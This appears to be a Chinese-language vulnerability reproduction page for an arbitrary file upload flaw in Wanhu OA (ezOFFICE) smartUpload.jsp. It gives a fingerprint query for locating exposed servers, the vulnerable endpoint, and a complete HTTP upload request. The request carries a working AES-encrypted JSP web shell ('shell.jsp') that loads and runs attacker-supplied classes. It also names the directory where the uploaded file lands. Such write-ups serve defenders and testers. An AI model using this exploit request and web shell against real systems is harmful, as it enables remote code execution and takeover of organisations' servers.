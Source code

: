 # 万户OA smartUpload.jsp 任意文件上传漏洞

# 万户OA smartUpload.jsp 任意文件上传漏洞

## 漏洞描述

万户OA smartUpload.jsp文件存在文件上传接口，且没有对文件类型进行过滤,导致任意文件上传漏洞

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132954328](/images/202205201329430.png)

文件上传接口

```
/defaultroot/extension/smartUpload.jsp?path=information&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&
```

![image-20220520133009291](/images/202205201330330.png)

可直接上传恶意jsp文件

```
POST /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0 HTTP/1.1
Host: 
Content-Length: 938
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
Connection: close

------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="photo"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="continueUpload"

1
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="submit"

上传继续
------WebKitFormBoundarynNQ8hoU56tfSwBVU--
```

![image-20220520133028650](/images/202205201330739.png)

通过抓包可查看上传的文件名，上传的目录为 `/defaultroot/upload/information/`

![image-20220520133040250](/images/202205201330344.png)

